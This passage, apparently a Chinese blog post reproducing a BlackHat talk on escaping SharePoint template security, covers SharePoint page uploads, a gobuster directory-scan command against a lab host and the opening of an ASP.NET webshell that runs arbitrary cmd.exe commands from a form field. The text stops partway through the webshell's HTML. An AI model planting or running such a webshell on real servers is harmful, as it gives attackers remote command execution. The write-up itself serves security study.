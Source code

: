 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/EzTHXrSF05lDyS7slMHQyg)

   本文为总结类文章，所写皆为对 BlackHat 议题 Munoz-Room-For-Escape-Scribbling-Outside-The-Lines-Of-Template-Security-wp.pdf 的复现学习，国内也有青藤云实验室的复现文章，有兴趣的推荐去看原文。

前置知识

首先，我们要了解的一个东西就是 sharepoint，它是微软用 .net 开发的一套 cms。既然是 cms 肯定允许用户上传，普通用户通过 PUT /my.aspx 的方式就可以上传自己写的任何内容，之后通过 GET /my.aspx 可以看到。虽然我可以在 my.aspx 中写任何内容，但并不是我写的任何内容都会被 SP 服务端解析，这也是其区别于一般 cms 的地方。我们可以通过一个例子来查看这个东西。

测试环境：SharePoint 2016

我这里首先创建了一个门户网站，需要注意的是，在 Sharepoint 中新建网站，默认的存储路径为：

```
C:\inetpub\wwwroot\wss\VirtualDirectories\{端口号}
```

目录结构如下：

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VFKOe4RacJnic1OshImX1LU89Trj7rWD5as6nAUltmTEG2H8vKiaNcLmicXicB3nHKlSGic4DXBWDQLdw/640?wx_fmt=png)

关于 sharepoint 服务器的识别，可以使用 whatcms 等来识别。

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VFKOe4RacJnic1OshImX1LUASzMSLtQtsNdazFB2wjfmz6apeuUULAwibzo8XafKvJjicC7KHCLFaKA/640?wx_fmt=png)

目录扫描可以使用：

```
gobuster dir -u http://192.168.2.105:8082/ -w /usr/share/seclists/Discovery/Web-Content/CMS/sharepoint.txt
```

假设我们上传上去了一个 aspx 的文档

```
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>
<script Language="c#" runat="server">
void Page_Load(object sender, EventArgs e)
{
}
string ExcuteCmd(string arg)
{
ProcessStartInfo psi = new ProcessStartInfo();
psi.FileName = "cmd.exe";
psi.Arguments = "/c "+arg;
psi.RedirectStandardOutput = true;
psi.UseShellExecute = false;
Process p = Process.Start(psi);
StreamReader stmrdr = p.StandardOutput;
string s = stmrdr.ReadToEnd();
stmrdr.Close();
return s;
}
void cmdExe_Click(object sender, System.EventArgs e)
{
Response.Write("<pre>");
Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));
Response.Write("</pre>");
}
</script>
<HTML>
<HEAD>
<title>awen asp.net webshell</title>
</HEAD>
<body >
<form id="cmd" method="post" runat="server">
```